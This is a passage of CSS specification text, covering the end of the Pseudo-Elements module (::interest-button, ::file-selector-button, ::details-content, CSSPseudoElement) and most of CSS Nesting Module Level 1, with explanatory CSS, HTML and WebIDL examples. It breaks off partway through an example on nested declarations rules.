Host languages typically allow multiple ways to show interest in an interest source, but sometimes the primary interest-showing mechanism is also used by another interaction; for example, on a touchscreen, long-pressing a link might show interest, but it might also bring up a context menu where showing interest is just one of the several options.

If it’s expected that showing interest will be something users often want to do, this conflict can be avoided with the `::interest-button` pseudo-element. Showing interest in the `::interest-button`, *or* directly activating it, is treated as showing interest in the originating element instead.

> **Note:** Using `::interest-button` does not change how the originating element can have interest shown; it’s an *additional* mechanism to make it easier or more obvious that the user can show interest in the element to gain some additional information.

`:interest-button` is intentionally *not* focusable (and thus not keyboard-activatable), nor does it appear in the accessibility tree. All the information it communicates is already present on the originating element.

`::interest-button` is a fully styleable pseudo-element. When its computed `content` value is not `none`, it generates boxes as if it were a *following sibling* of its originating element, before any `::scroll-button()` pseudo-elements that might also be on the originating element. It inherits from the originating element as normal.

> **Note:** The default UA styles defined for HTML *do not* set a `content` value, meaning the author must opt-in to having the pseudo-element appear in HTML.

> **Note:** The typical glyph used for this purpose is ⓘ (U+24D8 CIRCLED LATIN SMALL LETTER I), which can be used like:
>
> ```
> @media (any-pointer: coarse) {
>   a::interest-button {
>     content: "ⓘ" / "";
>   }
> }
> ```
>
> While not required to be used, note the MQ and selector used here, only showing the button on links (which definitely bring up a context menu when long-pressed on touchscreens) and only when the user only has access to a coarse pointer (such as a finger on a touchscreen). If desired, tho, there is nothing wrong with showing it more widely, with a less restrictive selector and/or no media query.
>
> > **Example:** 
> >
> > Several examples of `::interest-button` rendering with several combinations of both links and buttons, in a plain usage, alongside `::after` to demonstrate their relative ordering, and inline alongside following text.

### 5.  Element-backed Pseudo-Elements {#css-pseudo-4:element-like}

The **element-backed pseudo-elements**, interact with most CSS and other platform features as if they were real elements (and, in fact, often *are* real elements that are not otherwise selectable).

Element-backed pseudo-elements are always tree-abiding. Unless otherwise specified, they are fully styleable and inherit from their originating element, just like standard tree-abiding pseudo-elements; but they can be defined to inherit from another element instead. (For example, `::part()` inherits from the parent of the element it represents in the shadow tree.)

All pseudo-classes and pseudo-elements are syntactically allowed after an element-backed pseudo-element (such as `x-button::part(label):hover` or `x-button::part(label)::before`), just as if the pseudo-element were a type selector; but some are disallowed from matching:

- The structural pseudo-classes, `:has()` pseudo-class, `:scope` pseudo-class, and `:host`/`:host()`/`:host-context()` pseudo-classes never match.
- `::part()` never matches. (Other element-backed pseudo-elements can, however.)

An element-backed pseudo-element can define itself as representing a real element (possibly one not accessible in the current tree). If it does so, all pseudo-classes and pseudo-elements not otherwise disallowed (see above) match as they would on that real element. If it does not do so, it must define which pseudo-classes it matches and when; however, unless otherwise specified, any pseudo-classes allowed on tree-abiding pseudo-elements are always allowed on element-backed pseudo-elements.

#### 5.1.  File Selector Button: the `::file-selector-button` pseudo-element {#css-pseudo-4:file-selector-button-pseudo}

The **::file-selector-button** pseudo-element targets the `<button>` inside an `<input>` element with `type=file`, if the UA renders such a button.

There is no restriction on which properties apply to the `::file-selector-button` pseudo-element.

> **Example:** For example, the following example should show a green border around the file selector button:
>
> ```css
> ::file-selector-button { border: 3px solid green }
> ```

#### 5.2.  Expandable contents of details element: the `::details-content` pseudo-element {#css-pseudo-4:details-content-pseudo}

The **::details-content** pseudo-element targets the additional information in a `details` element that can be expanded or collapsed. It is an element-backed pseudo-element.

There is no restriction on which properties apply to the `::details-content` pseudo-element.

> **Example:** For example, the following example would animate the opacity of the additional information when the `details` element opens:
>
> ```css
> details::details-content {
>   opacity: 0;
>   transition: content-visibility 300ms allow-discrete, opacity 300ms;
> }
>
> details[open]::details-content {
>   opacity: 1;
> }
> ```

> **Note:** The default UA stylesheet styles a closed `::details-content` with `content-visibility: hidden`, so the contents are still considered present for the purpose of find-in-page and similar features. This, however, only suppresses the display of the pseudo-elements’s *contents*; if margin, borders, etc are set on the pseudo-element, they’ll still be visible. Use `[open]::details-content` to apply these styles if that’s undesirable.

### 6.  Overlapping Pseudo-element Interactions {#css-pseudo-4:interactions}

> **Example:** Recall that
>
> - the contents of `::before` and `::after` are selected exactly as if they were normal elements in the document source tree
> - the `::first-letter` boundaries are tightly wrapped around the first letter text, and `::first-letter` is constrained to exist solely on the first formatted line.
> - the `::first-line` start is inserted just inside the containing block’s element boundary, and its end after the close of all content on the line
>
> The following CSS and HTML example illustrates how overlapping pseudo-elements interact:
>
> ```html
> <style>
> p { color: red; font-size: 12pt }
> p::first-letter { color: green; font-size: 200% }
> p::first-line { color: blue }
> </style>
>
> <p>Some text that ends up on two lines</p>
> ```
>
> The first letter of each P element will be green with a font size of ’24pt'. The rest of the first formatted line will be blue while the rest of the paragraph will be red.
>
> Assuming that a line break will occur before the word "ends", the fictional tag sequence for this fragment might be:
>
> ```html
> <p>
>   <p::first-line>
>     <p::first-letter>
>       S
>     </p::first-letter>
>     ome text that
>   </p::first-line>
>   ends up on two lines
> </p>
> ```

### 7.  Additions to the CSS Object Model {#css-pseudo-4:cssom}

#### 7.1.  `CSSPseudoElement` Interface {#css-pseudo-4:CSSPseudoElement-interface}

```webidl
[Exposed=Window]
interface CSSPseudoElement {
    readonly attribute CSSOMString type;
    readonly attribute Element element;
    readonly attribute (Element or CSSPseudoElement) parent;
    readonly attribute CSSOMString selectorText;
    CSSPseudoElement? pseudo(CSSOMString type);
};
```

> **Issue:** This interface is under design development, and this draft is looking for feedback more than implementation. The CSSWG would particularly appreciate hearing about use cases and problems.

The **`type`** attribute is a string representing the type of the pseudo-element. This can be any standardized tree-abiding pseudo-element that is not an element-backed pseudo-element, for example:

**`"::before"`**

: Represents the `::before` pseudo-element.

**`"::after"`**

: Represents the `::after` pseudo-element.

**`"::marker"`**

: Represents the `::marker` pseudo-element.

**`"::backdrop"`**

: Represents the `::backdrop` pseudo-element.

**`"::view-transition"`**

: Represents the `::view-transition` pseudo-element.

The **`element`** attribute is the ultimate originating element of the pseudo-element.

The **`parent`** attribute is the originating element of the pseudo-element. For most pseudo-elements `parent` and `element` will return the same `Element`; for sub-pseudo-elements, `parent` will return a `CSSPseudoElement` while `element` returns an `Element`.

The **`selectorText`** attribute is a string representing the full, normalized selector text used to select the pseudo-element. This includes the pseudo-element name and any arguments, serialized in a form that can round-trip. For example, `"::after"` for a `::after` pseudo-element, or `"::scroll-button(left)"` for a `::scroll-button()` pseudo-element with a `left` argument.

The **`pseudo(type)`** method returns the `CSSPseudoElement` interface representing the sub-pseudo-element referenced in its argument, if such a sub-pseudo-element could exist and would be valid, and null otherwise. See `pseudo()` below.

> **Note:** This interface may be extended in the future to other pseudo-element types and/or to allow setting style information through a `CSSStyleDeclaration` `style` attribute. The current functionality is limited to that which is needed to support [web-animations-1].

#### 7.2.  `pseudo()` method of the `Element` interface {#css-pseudo-4:window-interface}

A new method is added to the `Element` interface to retrieve pseudo-elements created by a given element for a given type:

```webidl
partial interface Element {
  CSSPseudoElement? pseudo(CSSOMString type);
};
```

The **`pseudo(CSSOMString type)`** method is used to retrieve the `CSSPseudoElement` instance of the type matching `type` associated with the element. When it is called, execute the following steps:

1. Parse the `type` argument as a `<pseudo-element-selector>`, and let *type* be the result.
2. If *type* is failure, return null.
3. If *type* is an element-backed pseudo-element, return null.
4. If *type* is not a tree-abiding pseudo-element, return null.
5. Otherwise, return the `CSSPseudoElement` object representing the pseudo-element that would match the selector *type* with this as its originating element.

Return values that represent the same pseudo-element on the same originating element must be, insofar as observable, always the same `CSSPseudoElement` object. (The UA may drop or regenerate the object for convenience or performance if this is not observable.)

> **Note:** `CSSPseudoElement` is returned even when this method is invoked on elements that can’t have the requested pseudo type (e.g. `::before` on `input`). See [resolution](https://github.com/w3c/csswg-drafts/issues/12159#issuecomment-3005238286) for more details. Discussion in [Issue 12158](https://github.com/w3c/csswg-drafts/issues/12158) will clarify how to determine that the requested pseudo doesn’t really "exist".

> **Issue:** The identity, lifetime, and nullness of the return value (and potential error cases) of the `pseudo()` method is still under discussion. See [Issue 3607](https://github.com/w3c/csswg-drafts/issues/3607) and [Issue 3603](https://github.com/w3c/csswg-drafts/issues/3603).

#### 7.3.  `getComputedStyle()` {#css-pseudo-4:getComputedStyle}

When the second parameter *pseudoElt* refers to a highlight pseudo-element, `getComputedStyle()` returns styles as if that highlight is active and all other highlights are inactive. This avoids the potential ambiguity and privacy risks of returning a result that depends on the actual highlight state.

### 8.  Compatibility Syntax {#css-pseudo-4:css2-compat}

For compatibility with existing style sheets written against CSS Level 2 [CSS2], user agents must also accept the previous one-colon notation (`:before`, `:after`, `:first-letter`, `:first-line`) for the `::before`, `::after`, `::first-letter`, and `::first-line` pseudo-elements.

---

## CSS Nesting Module Level 1 {#css-nesting-1}

- **Shortname:** `css-nesting-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-nesting/](https://drafts.csswg.org/css-nesting/)
- **Published TR:** [https://www.w3.org/TR/css-nesting-1/](https://www.w3.org/TR/css-nesting-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-08

### 1.  Introduction {#css-nesting-1:intro}

*This section is not normative.*

This module describes support for nesting a style rule within another style rule, allowing the inner rule’s selector to reference the elements matched by the outer rule. This feature allows related styles to be aggregated into a single structure within the CSS document, improving readability and maintainability.

#### 1.1.  Module Interactions {#css-nesting-1:placement}

This module introduces new parser rules that extend the [CSS21] parser model. It introduces selectors that extend the [SELECTORS-4] module. It extends and modifies some IDL and algorithms defined in the [CSSOM-1] module.

#### 1.2.  Values {#css-nesting-1:values}

This specification does not define any new properties or values.

### 2.  Explainer {#css-nesting-1:explainer}

*This section is non-normative.*

Imagine you have some CSS that you’d like to write in a more compact way.

```
.foo {
  color: green;
}
.foo .bar {
  font-size: 1.4rem;
}
```

With Nesting, you can write such code as:

```
.foo {
  color: green;
  .bar {
    font-size: 1.4rem;
  }
}
```

If you’ve been nesting styles in Sass or other CSS preprocessors, you will find this very familiar.

You can nest any rules inside of a parent style rule:

```
main {
  div { ... }
  .bar { ... }
  #baz { ...}
  :has(p) { ... }
  ::backdrop { ... }
  [lang|="zh"] { ... }
  * { ... }
}
```

By default, the child rule’s selector is assumed to connect to the parent rule by a descendant combinator, but you can start the nested selector with any combinator to change that:

```
main {
  + article { ... }
  > p { ... }
  ~ main { ... }
}
```

The new `&` selector lets you refer to the elements matched by the parent selector explictly, so the previous examples could have been written as:

```
main {
  & + article { ... }
  & > p { ... }
  & ~ main { ... }
}
```

But you can place the `&` in other locations within the nested selector, to indicate other types of relationships between the parent and child rule. For example, this CSS:

```
ul {
  padding-left: 1em;
}
.component ul {
  padding-left: 0;
}
```

Can be rewritten using Nesting as:

```
ul {
  padding-left: 1em;
  .component & {
    padding-left: 0;
  }
}
```

Again, the `&` gives you a way to say “this is where I want the nested selector to go”.

It’s also handy when you don’t want a space between your selectors. For example:

```
a {
  color: blue;
  &:hover {
    color: lightblue;
  }
}
```

Such code yields the same result as `a:hover {`. Without the `&`, you’d get `a :hover {`—​notice the space between `a` and `:hover`—​which would fail to style your hover link.

You can nest more than one layer deep—​nesting CSS inside already-nested CSS—​in as many levels as you desire. You can mix Nesting with Container Queries, Supports Queries, Media Queries, and/or Cascade Layers however you want. (Nearly) anything can go inside of anything.

### 3. Nesting Style Rules {#css-nesting-1:nesting}

Style rules can be nested inside of other styles rules. These **nested style rules** act exactly like ordinary style rules—​associating properties with elements via selectors—​but they "inherit" their parent rule’s selector context, allowing them to further build on the parent’s selector without having to repeat it, possibly multiple times.

A nested style rule is exactly like a normal style rule, except that it can use relative selectors, which are implicitly relative to the elements matched by the parent rule.

> **Example:** That is, a nested style rule like:
>
> ```css
> .foo {
>   color: red;
>
>   a {
>     color: blue;
>   }
> }
> ```
>
> is valid, and equivalent to:
>
> ```css
> .foo {
>   color: red;
> }
> .foo a {
>   color: blue;
> }
> ```
>
> The nested rule can also use the nesting selector to directly refer to the parent rule’s matched elements, or use relative selector syntax to specify relationships other than "descendant".
>
> ```css
> .foo {
>   color: red;
>
>   &:hover {
>     color: blue;
>   }
> }
>
> /* equivalent to: */
>
> .foo { color: red; }
> .foo:hover { color: blue; }
> ```
>
> ```css
> .foo {
>   color: red;
>
>   + .bar {
>     color: blue;
>   }
> }
>
> /* equivalent to: */
>
> .foo { color: red; }
> .foo + .bar { color: blue; }
> ```

#### 3.1. Syntax {#css-nesting-1:syntax}

The contents of style rules now accepts nested style rules and at-rules, in addition to the existing declarations.

Nested style rules differ from non-nested rules in the following ways:

- A nested style rule accepts a `<relative-selector-list>` as its prelude (rather than just a `<selector-list>`). Any relative selectors are relative to the elements represented by the nesting selector.
- If a selector in the `<relative-selector-list>` does not start with a combinator but does contain the nesting selector, it is interpreted as a non-relative selector.

The precise details of how nested style rules are parsed are defined in [CSS-SYNTAX-3].

An invalid nested style rule is ignored, along with its contents, but does not invalidate its parent rule.

Nested rules with relative selectors include the specificity of their implied nesting selector. For example, `.foo { > .bar {...}}` and `.foo { & > .bar {...}}` have the same specificity for their inner rule.

> **Note:** Some CSS-generating tools that preprocess nesting will concatenate selectors as strings, allowing authors to build up a *single* simple selector across nesting levels. This is sometimes used with hierarchical name patterns like [BEM](https://getbem.com/introduction/) to reduce repetition across a file, when the selectors themselves have significant repetition internally.
>
> For example, if one component uses the class `.foo`, and a nested component uses `.fooBar`, you could write this in [Sass](https://sass-lang.com/) as:
>
> ```css
> .foo {
>   color: blue;
>   &Bar { color: red; }
> }
> /* In Sass, this is equivalent to
>   .foo { color: blue; }
>   .fooBar { color: red; }
> */
> ```
>
> This is not allowed in CSS, as nesting is not a syntax transformation, but rather matches on the actual elements the parent selector matches.
>
> It is also true that the selector `&Bar` is invalid in CSS in the first place, as the `Bar` part is a type selector, which must come first in the compound selector. (That is, it must be written as `Bar&`.) So, luckily, there is no overlap between CSS Nesting and the preprocessor syntax.

A selector is said to **contain the nesting selector** if, when it was parsed as any type of selector, a `<delim-token>` with the value "&" (U+0026 AMPERSAND) was encountered.

> **Note:** This is phrased in this explicit manner so as to catch cases like `:is(:unknown(&), .bar)`, where an unknown selector (which, being unknown, we have no way of knowing whether the argument is *meant* to be parsed as a selector or not) is the only part of the selector that contains an `&`. As that *might* be a perfectly valid selector that’s only supported by newer browsers, and we don’t want parsing to be dependent on unrelated versioning issues, we treat it as still containing the nesting selector.

If a `<forgiving-selector-list>` has an item that contains the nesting selector but is invalid, that item is preserved exactly as-is rather than being discarded. (This does not change the matching behavior of the selector—​an invalid selector still fails to match anything—​just the serialization of the selector.)

> **Issue:** The preceding paragraph needs to move to Selectors when we move `&` itself to Selectors; I’m monkey-patching for convenience here.

#### 3.2.  Examples {#css-nesting-1:syntax-examples}

```css
/* & can be used on its own */
.foo {
  color: blue;
  & > .bar { color: red; }
  > .baz { color: green; }
}
/* equivalent to
  .foo { color: blue; }
  .foo > .bar { color: red; }
  .foo > .baz { color: green; }
*/

/* or in a compound selector,
   refining the parent's selector */
.foo {
  color: blue;
  &.bar { color: red; }
}
/* equivalent to
  .foo { color: blue; }
  .foo.bar { color: red; }
*/

/* multiple selectors in the list are all
   relative to the parent */
.foo, .bar {
  color: blue;
  + .baz, &.qux { color: red; }
}
/* equivalent to
  .foo, .bar { color: blue; }
  :is(.foo, .bar) + .baz,
  :is(.foo, .bar).qux { color: red; }
*/

/* & can be used multiple times in a single selector */
.foo {
  color: blue;
  & .bar & .baz & .qux { color: red; }
}
/* equivalent to
  .foo { color: blue; }
  .foo .bar .foo .baz .foo .qux { color: red; }
*/

/* & doesn't have to be at the beginning of the selector */

.foo {
  color: red;
  .parent & {
    color: blue;
  }
}
/* equivalent to
  .foo { color: red; }
  .parent .foo { color: blue; }
*/

.foo {
  color: red;
  :not(&) {
    color: blue;
  }
}
/* equivalent to
  .foo { color: red; }
  :not(.foo) { color: blue; }
*/

/* But if you use a relative selector,
  an initial & is implied automatically */

.foo {
  color: red;
  + .bar + & { color: blue; }
}

/* equivalent to
  .foo { color: red; }
  .foo + .bar + .foo { color: blue; }
*/

/* Somewhat silly, but & can be used all on its own, as well. */
.foo {
  color: blue;
  & { padding: 2ch; }
}
/* equivalent to
  .foo { color: blue; }
  .foo { padding: 2ch; }

  // or

  .foo {
    color: blue;
    padding: 2ch;
  }
*/

/* Again, silly, but can even be doubled up. */
.foo {
  color: blue;
  && { padding: 2ch; }
}
/* equivalent to
  .foo { color: blue; }
  .foo.foo { padding: 2ch; }
*/

/* The parent selector can be arbitrarily complicated */
.error, #404 {
  &:hover > .baz { color: red; }
}
/* equivalent to
  :is(.error, #404):hover > .baz { color: red; }
*/

.ancestor .el {
  .other-ancestor & { color: red; }
}
/* equivalent to
  .other-ancestor :is(.ancestor .el) { color: red; }

/* As can the nested selector */
.foo {
  & :is(.bar, &.baz) { color: red; }
}
/* equivalent to
  .foo :is(.bar, .foo.baz) { color: red; }
*/

/* Multiple levels of nesting "stack up" the selectors */
figure {
  margin: 0;

  > figcaption {
    background: hsl(0 0% 0% / 50%);

    > p {
      font-size: .9rem;
    }
  }
}
/* equivalent to
  figure { margin: 0; }
  figure > figcaption { background: hsl(0 0% 0% / 50%); }
  figure > figcaption > p { font-size: .9rem; }
*/

/* Example usage with Cascade Layers */
@layer base {
  html {
    block-size: 100%;

    body {
      min-block-size: 100%;
    }
  }
}
/* equivalent to
  @layer base {
    html { block-size: 100%; }
    html body { min-block-size: 100%; }
  }
*/

/* Example nesting Cascade Layers */
@layer base {
  html {
    block-size: 100%;

    @layer support {
      body {
        min-block-size: 100%;
      }
    }
  }
}
/* equivalent to
  @layer base {
    html { block-size: 100%; }
  }
  @layer base.support {
    html body { min-block-size: 100%; }
  }
*/

/* Example usage with Scoping */
@scope (.card) to (> header) {
  :scope {
    inline-size: 40ch;
    aspect-ratio: 3/4;

    > header {
      border-block-end: 1px solid white;
    }
  }
}
/* equivalent to
  @scope (.card) to (> header) {
    :scope { inline-size: 40ch; aspect-ratio: 3/4; }
    :scope > header { border-block-end: 1px solid white; }
  }
*/

/* Example nesting Scoping */
.card {
  inline-size: 40ch;
  aspect-ratio: 3/4;

  @scope (&) to (> header > *) {
    :scope > header {
      border-block-end: 1px solid white;
    }
  }
}

/* equivalent to
  .card { inline-size: 40ch; aspect-ratio: 3/4; }
  @scope (.card) to (> header > *) {
    :scope > header { border-block-end: 1px solid white; }
  }
*/
```

#### 3.3. Nesting Other At-Rules {#css-nesting-1:conditionals}

In addition to nested style rules, this specification allows **nested group rules** inside of style rules: any at-rule whose body contains style rules can be nested inside of a style rule as well, unless otherwise specified.

When nested in this way, the contents of a nested group rule’s block are parsed as `<block-contents>` rather than `<rule-list>`:

- Style rules are nested style rules, with their nesting selector taking its definition from the nearest ancestor style rule.
- Properties can be directly used, acting as if they were nested in a nested declarations rule.

> **Note:** Specifically, these rules are capable of being nested group rules:
>
> - all the conditional group rules (`@container`, `@media`, `@supports`)
> - `@layer`
> - `@scope`

The meanings and behavior of such nested group rules is otherwise unchanged, unless otherwise specified.

> **Example:** For example, the following conditional nestings are valid:
>
> ```css
> /* Properties can be directly used */
> .foo {
>   display: grid;
>
>   @media (orientation: landscape) {
>     grid-auto-flow: column;
>   }
> }
>
> /* equivalent to: */
> .foo {
>   display: grid;
> }
> @media (orientation: landscape) {
>   .foo {
>     grid-auto-flow: column
>   }
> }
>
> /* and also equivalent to the unnested: */
> .foo { display: grid; }
>
> @media (orientation: landscape) {
>   .foo {
>     grid-auto-flow: column;
>   }
> }
>
> /* Conditionals can be further nested */
> .foo {
>   display: grid;
>
>   @media (orientation: landscape) {
>     grid-auto-flow: column;
>
>     @media (min-width > 1024px) {
>       max-inline-size: 1024px;
>     }
>   }
> }
>
> /* equivalent to */
> .foo { display: grid; }
>
> @media (orientation: landscape) {
>   .foo {
>     grid-auto-flow: column;
>   }
> }
>
> @media (orientation: landscape) and (min-width > 1024px) {
>   .foo {
>     max-inline-size: 1024px;
>   }
> }
>
> /* Example nesting Cascade Layers */
> html {
>   @layer base {
>     block-size: 100%;
>
>     @layer support {
>       & body {
>         min-block-size: 100%;
>       }
>     }
>   }
> }
>
> /* equivalent to */
> @layer base {
>   html { block-size: 100%; }
> }
> @layer base.support {
>   html body { min-block-size: 100%; }
> }
>
> /* Example nesting Scoping */
> .card {
>   inline-size: 40ch;
>   aspect-ratio: 3/4;
>
>   @scope (&) {
>     :scope {
>       border: 1px solid white;
>     }
>   }
> }
>
> /* equivalent to */
> .card { inline-size: 40ch; aspect-ratio: 3/4; }
> @scope (.card) {
>   :scope { border-block-end: 1px solid white; }
> }
> ```

Runs of consecutive directly-nested properties are automatically wrapped in nested declarations rules. (This is observable in the CSSOM.)

##### 3.3.1.  Nested `@scope` Rules {#css-nesting-1:nesting-at-scope}

When the `@scope` rule is a nested group rule, an `&` in the `<scope-start>` selector refers to the elements matched by the nearest ancestor style rule.

> **Example:** That is, the following code:
>
> ```
> .parent {
>   color: blue;
>
>   @scope (& > .scope) to (& .limit) {
>     & .content {
>       color: red;
>     }
>   }
> }
> ```
>
> is equivalent to:
>
> ```
> .parent { color: blue; }
> @scope (.parent > .scope) to (:where(:scope) .limit) {
>   :where(:scope) .content {
>     color: red;
>   }
> }
> ```

> **Note:** The `&` selector behaves like `:where(:scope)` in `@scope` rules.

#### 3.4. Mixing Nesting Rules and Declarations {#css-nesting-1:mixing}

When a style rule contains both declarations and nested style rules or nested group rules, all three can be arbitrarily mixed. Declarations coming after or between rules are implicitly wrapped in nested declarations rules, to preserve their order relative to the other rules.

> **Example:** For example, in the following code:
>
> ```css
> article {
>   color: green;
>   & { color: blue; }
>   color: red;
> }
>
> /* equivalent to */
> article { color: green; }
> :is(article) { color: blue; }
> article { color: red; }
>
> /* NOT equivalent to */
> article { color: green; }
> article { color: red; }
> :is(article) { color: blue; }
> ```

For the purpose of determining the [Order Of Appearance](#css-cascade-5:cascade-sort), nested style rules and nested group rules are considered to come *after* their parent rule.

For example:

```css
article {
  color: blue;
  & { color: red; }
}
```

Both declarations have the same specificity (0,0,1), but the nested rule is considered to come *after* its parent rule, so the `color: red` declarations wins the cascade.

On the other hand, in this example:

```css
article {
  color: blue;
  :where(&) { color: red; }
}
```

The `:where()` pseudoclass reduces the specificity of the nesting selector to 0, so the `color: red` declaration now has a specificity of (0,0,0), and loses to the `color: blue` declaration before "Order Of Appearance" comes into consideration.

> **Note:** While one *can* freely intermix declarations and nested rules, it’s harder to read and somewhat confusing to do so, since the later properties are automatically wrapped in a nested declarations rule that doesn’t appear in the source text. For readability’s sake, it’s recommended that authors put all their properties first in a style rule, before any nested rules. (This also happens to act slightly better in older user agents: due to specifics of how parsing and error-recovery work, properties appearing after nested rules can get skipped.)

### 4. Nesting Selector: the `&` selector {#css-nesting-1:nest-selector}

When using a nested style rule, one must be able to refer to the elements matched by the parent rule; that is, after all, *the entire point of nesting*. To accomplish that, this specification defines a new selector, the **nesting selector**, written as **&** (U+0026 AMPERSAND).

When used in the selector of a nested style rule, the nesting selector represents the elements matched by the parent rule. When used in any other context, it represents the same elements as `:scope` in that context (unless otherwise defined).

> **Note:** The nesting selector can be desugared by replacing it with the parent style rule’s selector, wrapped in an `:is()` selector. For example,
>
> ```css
> a, b {
>   & c { color: blue; }
> }
> ```
>
> is equivalent to
>
> ```css
> :is(a, b) c { color: blue; }
> ```

The nesting selector cannot represent pseudo-elements (identical to the behavior of the `:is()` pseudo-class).

> **Example:** For example, in the following style rule:
>
> ```css
> .foo, .foo::before, .foo::after {
>   color: red;
>
>   &:hover { color: blue; }
> }
> ```
>
> the `&` only represents the elements matched by `.foo`; in other words, it’s equivalent to:
>
> ```css
> .foo, .foo::before, .foo::after {
>   color: red;
> }
> .foo:hover {
>   color: blue;
> }
> ```

> **Issue:** We’d like to relax this restriction, but need to do so simultaneously for both `:is()` and `&`, since they’re intentionally built on the same underlying mechanisms. ([Issue 7433](https://github.com/w3c/csswg-drafts/issues/7433))

The specificity of the nesting selector is equal to the largest specificity among the complex selectors in the parent style rule’s selector list (identical to the behavior of `:is()`), or zero if no such selector list exists.

> **Example:** For example, given the following style rules:
>
> ```css
> #a, b {
>   & c { color: blue; }
> }
> .foo c { color: red; }
> ```
>
> Then in a DOM structure like
>
> ```html
> <b class=foo>
>   <c>Blue text</c>
> </b>
> ```
>
> The text will be blue, rather than red. The specificity of the `&` is the larger of the specificities of `#a` ([1,0,0]) and `b` ([0,0,1]), so it’s [1,0,0], and the entire `& c` selector thus has specificity [1,0,1], which is larger than the specificity of `.foo c` ([0,1,1]).
>
> Notably, this is *different* than the result you’d get if the nesting were manually expanded out into non-nested rules, since the `color: blue` declaration would then be matching due to the `b c` selector ([0,0,2]) rather than `#a c` ([1,0,1]).

> **Note:** Why is the specificity different than non-nested rules?
>
> The nesting selector intentionally uses the same specificity rules as the `:is()` pseudoclass, which just uses the largest specificity among its arguments, rather than tracking *which* selector actually matched.
>
> This is required for performance reasons; if a selector has multiple possible specificities, depending on how precisely it was matched, it makes selector matching much more complicated and slower.
>
> That skirts the question, tho: why *do* we define `&` in terms of `:is()`? Some non-browser implementations of Nesting-like functionality do *not* desugar to `:is()`, largely because they predate the introduction of `:is()` as well. Instead, they desugar directly; however, this comes with its own *significant* problems, as some (reasonably common) cases can accidentally produce *massive* selectors, due to the exponential explosion of possibilities.
>
> ```css
> .a1, .a2, .a3 {
>   .b1, .b2, .b3 {
>     .c1, .c2, .c3 {
>       ...;
>     }
>   }
> }
>
> /* naively desugars to */
> .a1 .b1 .c1,
> .a1 .b1 .c2,
> .a1 .b1 .c3,
> .a1 .b2 .c1,
> .a1 .b2 .c2,
> .a1 .b2 .c3,
> .a1 .b3 .c1,
> .a1 .b3 .c2,
> .a1 .b3 .c3,
> .a2 .b1 .c1,
> .a2 .b1 .c2,
> .a2 .b1 .c3,
> .a2 .b2 .c1,
> .a2 .b2 .c2,
> .a2 .b2 .c3,
> .a2 .b3 .c1,
> .a2 .b3 .c2,
> .a2 .b3 .c3,
> .a3 .b1 .c1,
> .a3 .b1 .c2,
> .a3 .b1 .c3,
> .a3 .b2 .c1,
> .a3 .b2 .c2,
> .a3 .b2 .c3,
> .a3 .b3 .c1,
> .a3 .b3 .c2,
> .a3 .b3 .c3 {...}
> ```
>
> Here, three levels of nesting, each with three selectors in their lists, produced 27 desugared selectors. Adding more selectors to the lists, adding more levels of nesting, or making the nested rules more complex can make a relatively small rule expand into multiple megabytes of selectors (or much, much more!).
>
> Some CSS tools avoid the worst of this by heuristically discarding some variations, so they don’t have to output as much but are still *probably* correct, but that’s not an option available to UAs.
>
> Desugaring with `:is()` instead eliminates this problem entirely, at the cost of making specificity slightly less useful, which was judged a reasonable trade-off.

The nesting selector is capable of matching featureless elements, if they were matched by the parent rule.

While the position of a nesting selector in a compound selector does not make a difference in its behavior (that is, `&.foo` and `.foo&` match the same elements), the existing rule that a type selector, if present, must be first in the compound selector continues to apply (that is, `&div` is illegal, and must be written `div&` instead).

### 5.  The Nested Declarations Rule {#css-nesting-1:nested-declarations}

For somewhat-technical reasons, it’s important to be able to distinguish properties that appear at the start of a style rule’s contents from those that appear interspersed with other rules.

> **Example:** For example, in the following two rules:
>
> ```css
> .foo {
>   color: red;
>   @media (...) {...}
>   background: blue;
> }
> ```
>
> We need to treat the `color: red` and `background: blue` slightly differently. In particular, in the CSSOM, the `color: red` is exposed in the style rule’s `style` attribute, while the `background: blue` needs to instead show up in its `cssRules` list.

To accomplish this, CSS parsing *automatically* wraps such properties in a special child rule to contain them. However, if we were to wrap them in a style rule with an `&` selector, it would have somewhat unfortunate behavior:

> **Example:** For example, in
>
> ```css
> .foo, .foo::before {
>   color: red;
>   & {
>     background: blue;
>   }
> }
> ```
>
> the nested rule *does not* apply the `background` property to the `.foo::before` elements, because the `&` can’t represent pseudo-elements.

Similarly, child declarations in nested non-style rules need to be exposed as rules in some way, because these sorts of rules (like `@media`) have never had `style` properties. These run into the same problems as above.

To address all of these issue, we instead wrap runs of consecutive directly-nested properties in a **nested declarations rule**.

Unless otherwise specified, a nested declarations rule is a nested style rule, and acts identically to any other style rule. It matches the exact same elements and pseudo-elements as its parent style rule, with the same specificity behavior. (This is *similar to* being a style rule with an `&` selector, but slightly more powerful, as explained above.)

> **Note:** Why does the nested declarations rule exist?
>
> Originally, this specification grouped all declarations in style rules together, "moving" them from their original location to act as if they were placed at the front of the rule. It also automatically wrapped raw declarations inside of nested group rules in plain style rules, using the `&` selector.
>
> There are two major reasons we switched to instead use the nested declarations rule.
>
> First, using an `& {...}` rule to implicitly wrap declarations in a nested group rule also changed the behavior. As shown in the example following this note, it breaks cases where the parent style rule contains pseudo-elements, and even when that’s not the case, it potentially changes the specificity behavior of the nested declarations. Switching to the nested declarations rule avoids these problems, making the behavior of nested `@media`/etc identical to the behavior of *non*-nested `@media`/etc.
>
> Second, there are some details of future CSS features (notably, "mixins") that simply won’t work correctly if interleaved declarations are automatically moved to the front of the style rule. We need to keep their relative order with other rules, and in order to actually make that representable in the CSSOM, that means they have to be wrapped in some kind of rule. The same issues as the previous paragraph apply if we just use a normal `& {...}` rule, so the nested declarations rule lets us do so without side effects.

> **Example:** For example, in the following stylesheet snippet:
>
> ```css
> .foo, .foo::before, .foo::after {
>   color: black;
>   @media (prefers-color-scheme: dark) {
>     & {
>       color: white;
>     }
>   }
> }
> ```
>
